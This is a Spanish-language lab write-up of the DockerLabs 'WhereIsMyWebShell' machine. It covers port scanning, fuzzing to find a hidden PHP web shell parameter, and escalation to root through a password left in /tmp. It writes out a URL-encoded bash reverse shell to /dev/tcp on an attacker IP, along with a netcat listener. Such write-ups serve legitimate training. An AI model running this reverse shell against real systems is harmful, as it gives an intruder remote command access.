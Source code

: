 # 📘 Informe de Pentesting - WhereIsMyWebShell (Nivel Fácil)

## 🎯 Objetivo

El objetivo de esta máquina vulnerable es identificar y explotar una **web shell oculta**, acceder al sistema, y finalmente obtener privilegios de **root**.

---

## 📝 Descripción

Se trabajó con una máquina vulnerable descargada desde DockerLabs. El análisis incluye desde el reconocimiento de puertos hasta la escalada de privilegios. Este informe explica todo el proceso paso a paso con soporte visual para facilitar la comprensión.

---

## ⚙️ Despliegue de la Máquina

1. **Descarga y descompresión**
   Descargamos el archivo `whereismywebshell.zip` desde DockerLabs y lo descomprimimos:

   ```bash
   unzip whereismywebshell.zip
   ```

2. **Ejecución de la máquina**
   Luego, se desplegó la máquina con el script de despliegue:

   ```bash
   sudo bash auto_deploy.sh whereismywebshell.tar
   ```

   ![Despliegue](./Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Para verificar que la máquina esté activa, se le hace ping a la IP asignada (por ejemplo, `172.17.0.3`):

```bash
ping -c 3 172.17.0.3
```

![Ping](./Imagenes/Ping.jpeg)

---

## 🔎 Reconocimiento de Puertos

1. **Escaneo completo de puertos con Nmap**

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
   ```

   Se descubrió que el **puerto 80 (HTTP)** está abierto.

   ![Puertos abiertos](./Imagenes/Puerto.jpeg)

2. **Escaneo específico del puerto descubierto**

   ```bash
   nmap -sC -sV -p 80 172.17.0.3 -oN target.txt
   ```

   Este comando analiza más a fondo para identificar versiones y servicios.

   ![Servicios](./Imagenes/Servicios.jpeg)

---

## 🌐 Análisis del Sitio Web

Accedemos al navegador en la dirección: `http://172.17.0.3`
Se muestra una página web simple.

![Página principal](./Imagenes/Pagina.jpeg)

---

## 🛠️ Descubrimiento de Recursos Ocultos (Fuzzing)

Se utilizó fuzzing (técnica para encontrar recursos ocultos en el servidor) y se encontró lo siguiente:

1. Directorios ocultos
2. En la sección de contacto del archivo `index.html`, se encuentra este mensaje:

```
Guardo un secretito en /tmp ;)
```

![Fuzzing](./Imagenes/Fuzzing.jpeg)

Además, se encontró una página sospechosa:
`http://172.17.0.3/warning.html`

![Página web sospechosa](./Imagenes/web.jpeg)

---

## 🐚 Explotación: Descubrimiento de Web Shell

Se usó **wfuzz** para probar qué parámetros de `shell.php` ejecutan comandos:

```bash
wfuzz -c -t 50 --hh 0 --hc 404,500 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt "http://172.17.0.3/shell.php?FUZZ=id"
```

Después de probar más de 6000 parámetros, se identificó uno que ejecuta comandos como `id`.

![Descubrimiento de Web Shell](./Imagenes/WebShellWfuuz.jpeg)

---

## 🖥️ Acceso vía Web Shell

Probando el parámetro descubierto en el navegador, se confirmó que se ejecutan comandos.

![Web Shell activa](./Imagenes/WebShell.jpeg)

---

## 📥 Conexión Reversa (Reverse Shell)

Para obtener una terminal interactiva en nuestra máquina, configuramos un **listener** con `netcat`:

```bash
sudo nc -lvnp 443
```

![Listener activado](./Imagenes/Escucha.jpeg)

Desde la Web Shell, se ejecuta el siguiente comando para conectarse a nuestra máquina (IP atacante: `192.168.1.10`):

```bash
http://172.17.0.3/shell.php?parameter=bash+-c+%27bash+-i+%3E%26+/dev/tcp/192.168.1.10/443+0%3E%261%27
```

Esto lanza una **reverse shell**, dándonos acceso como usuario en la máquina remota.

![Reverse Shell exitosa](./Imagenes/Scrpts.jpeg)
![Sesión interactiva obtenida](./Imagenes/Shell.jpeg)

---

## 🔐 Escalada de Privilegios

Recordando el mensaje visto anteriormente (`Guardo un secretito en /tmp ;)`), navegamos al directorio `/tmp/`:

```bash
cd /tmp/
ls -la
```

Encontramos un archivo `.txt` sospechoso. Al visualizarlo con `cat`, revela la **contraseña de root**:

```bash
cat secret.txt
```

Usamos `su` para convertirnos en root:

```bash
su root
# Contraseña: contraseñaderoot123
```

¡Acceso como root conseguido!

![Acceso root](./Imagenes/Root.jpeg)

---

## 🏁 Conclusión

En esta máquina:

* Se identificó un servicio HTTP vulnerable.
* Se descubrió una **web shell** oculta mediante fuzzing.
* Se ejecutó una **reverse shell** para acceder al sistema.
* Se obtuvo la contraseña de root desde un archivo oculto en `/tmp`.
* Se escalaron privilegios y se obtuvo control total del sistema.

Este reto refuerza habilidades esenciales de pentesting web, como fuzzing, análisis de parámetros, ejecución remota de comandos y escalada de privilegios.
